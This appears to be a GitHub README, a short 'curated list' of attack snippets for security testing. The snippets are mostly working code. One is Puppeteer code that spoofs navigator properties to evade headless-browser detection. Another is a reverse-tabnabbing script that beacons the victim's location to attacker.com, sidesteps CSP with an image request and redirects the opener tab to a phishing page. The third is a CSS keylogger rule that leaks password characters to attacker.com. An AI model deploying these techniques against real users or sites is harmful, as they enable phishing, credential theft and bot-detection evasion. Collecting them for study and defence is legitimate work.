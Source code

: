 # PEN
A curated list of script and attack for security testing purposes and knowledgement.  
  
## JavaScript:
  - #### Bypass `Chrome Headless` detection:
    ```javascript
    // Pass the User-Agent Test.
    const userAgent = 'Mozilla/5.0 (X11; Linux x86_64)' +
        'AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.39 Safari/537.36';
    await page.setUserAgent(userAgent);
    
    await page.evaluateOnNewDocument(() => {
      // Pass the Webdriver Test.
      Object.defineProperty(navigator, 'webdriver', {
        get: () => false,
      });
      
      // Pass the Chrome Test.
      window.navigator.chrome = {
        // We can mock this in as much depth as we need for the test.
        runtime: {}, // etc.
      };
      
      // Pass the Plugins Length Test.
      Object.defineProperty(navigator, 'plugins', {
        // Overwrite the `plugins` property to use a custom getter.
        // This just needs to have `length > 0` for the current test,
        // but we could mock the plugins too if necessary.
        get: () => [1, 2, 3, 4, 5],
      });
      
      // Pass the Languages Test.
      Object.defineProperty(navigator, 'languages', {
        get: () => ['en-US', 'en'],
      });
      
      // Pass the Permissions Test.
      const originalQuery = window.navigator.permissions.query;
      return window.navigator.permissions.query = (parameters) => (
        parameters.name === 'notifications' ?
          Promise.resolve({ state: Notification.permission }) :
          originalQuery(parameters)
      );
    });    
    ```
    References:
    - https://intoli.com/blog/not-possible-to-block-chrome-headless/
    
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener && window.opener.location) {
      // Imagine this script as a library added to an attacker official website.
      // If this site is opened by an user that clicked to an `a` element
      // with target attribute setted to '_blank', the browser will initialize an `opener` object,
      // referred to the browser window which the user came from.
      // This weakness could be used to redirect the opener window to a phishing site.

      let randomUserID = Math.random().toString().slice(2,),
        urlStartPhishing =
          `//attacker.com/new/phishing/?location=${window.opener.location}&user=${randomUserID}`,
        redirect2Phishing = () => {
          // Wait for the deployment of the phishing site.
          setTimeout(() => {
            window.opener.location.assign(`//attacker.com/${randomUserID}/${window.opener.location}`)
          }, 8000)
        };

      fetch(urlStartPhishing)
        .then(response => {
          redirect2Phishing()
        })
        .catch(err => {
          // Error, maybe CSP :(

          let bypassCSP = new Image();
          bypassCSP.src = urlStartPhishing;
          redirect2Phishing()
        });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
    - https://sites.google.com/site/bughunteruniversity/nonvuln/phishing-with-window-opener
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/
